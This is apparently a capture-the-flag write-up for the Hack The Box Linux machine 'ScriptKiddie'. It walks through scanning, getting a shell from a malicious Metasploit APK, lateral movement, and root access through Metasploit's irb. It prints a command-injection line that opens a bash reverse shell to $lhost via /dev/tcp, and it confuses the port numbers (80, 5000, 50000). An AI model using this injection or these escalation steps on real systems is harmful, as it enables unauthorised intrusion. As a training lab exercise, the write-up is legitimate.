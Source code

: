 # ScriptKiddie - Linux (Easy)

## Summary

This box has a particularly interesting premise, focused around a script kiddie and "quick-win" tools for automated exploiting. It had a Python webserver with a couple of tools including Msfvenom to create a malicious payload. I was able to get Remote Code Execution through a malicious `.apk` to get initial access. Then I was able to exploit a cron job via command injection to move laterally to find a user account that was able to run Metasploit as root. After running Metasploit as root, I was able to drop into an interactive Ruby shell and grab the root flag. 

## Enumeration

Having added the `$machine_IP` to the `/etc/hosts` file, I used Rustscan to pick up open ports which were then fed to `Nmap` for a more thorough scan

```
rustscan -a scriptkiddie.htb -- -A -sV -sC -T4 -v

-sC - Script Scan
-sV - Version Scan
-T4 - Timing Template
-A  - Aggresive Scan Options
-vv - Verbosity level

.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

Open $machine_IP:22
Open $machine_IP:5000

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    syn-ack ttl 63 Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
| http-methods: 
|_  Supported Methods: HEAD OPTIONS POST GET
```

This resulted in two ports - 22 (SSH) and 80 (HTTP). I initially targeted Port 80 as SSH isn't usually a priority (I usually try password guessing - admin, root, box name and default passwords and they didn't work this time around). The target was running a Python webserver on port 5000

## Port 50000 (HTTP)

This looks to be a standard webpage with a GUI like interface for easy output of Nmap results, Msfvenom payloads and Searchsploit search functionality, ideal for a script kiddie, hence the name. 

I am able to run an Nmap scan on the machine with the machine IP and it outputs legitimate results.

![nmap](Images/port80-nmap.png)

I am able to do the same for a Msfvenom payload. Since the Msfvenom payload page has a file upload functionality, this gets my spidey-senses going and since there is already an instance of Searchsploit, I look up Nmap and Msfvenom and I get an APK Template Command Injection for Metasploit which I will explore further. 

![msfvenom](Images/port80-msfvenom.png)

![metasploit](Images/port80-meterpreter.png)

The payload options allows me to select between Android, Linux & Windows targets. Once selected, it is possible to download the file for a temporary period. This puts a common name in the certificate. I copied this exploit and ran it to get a malicious `.apk` file but without much luck. However, I was able to generate the `.apk` through Metasploit, which was unstable but I was able to get a working `.apk`

![msf](Images/msf1.png)

![msf2](Images/msf2.png)

I then uploaded the `.apk` to the webserver and change the Operating System to "Android" with a netcat listener on Port 9999

![nc](Images/nc-lvnp.png)

I was able to get the `user.txt` flag but I was not able to see what this user could run as root. This led me to assume that there is another user that I might need to jump onto. 

![user.txt](Images/user.txt.png)

Sure enough there is another user called `pwn`! I tried to identify which of `pwn`'s file the `kid` user had access to.

```
find /home/pwn -type f -readable -ls 2>/dev/null
```

This shows a world-readable file called `scanlosers.sh`. This script grabs logs from the webserver and uses the `cut` command to grab unique IP's and then scans the top 10 ports on that IP while saving it to the `recon` folder. After this, it clears the log. 

![scanlosers](Images/scanlosers.png)

This is particularly interesting because when enumerating the web server, I noticed that inputting a blank field in the Searchsploit section and attempting to search, results in a funny output message. The fact that the webserver scans attackers checks out with this narrative.

![hackback](Images/hackback.png)

I lightly tweaked my regular bash reverse shell payload to cater to the `cut` commands used and got a reverse shell as the `pwn` user

```
kid@scriptkiddie:~/logs$ echo 'a b $(bash -c "bash -i &>/dev/tcp/$lhost/8888 0>&1")' > hackers
```

![pwn](Images/pwn.png)

## Privilege Escalation

I was able to pick up the reverse shell and running `sudo -l` showed that the pwn user can run metasploit as root.

![sudo-l](Images/sudo-l.png)

Once in Metasploit, I drop to the integrated Ruby shell with the `irb` command

```
msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object
```

![msf1](Images/system.png)

I can use specific command syntax - `system("command")` to run bash commands and can extend this to do a file read.

However, I want a root shell so I can use the `system("bash")` command from the irb shell to get a root shell.

![root.txt](Images/root.txt.png)

## Cert

![cert](Images/cert.png)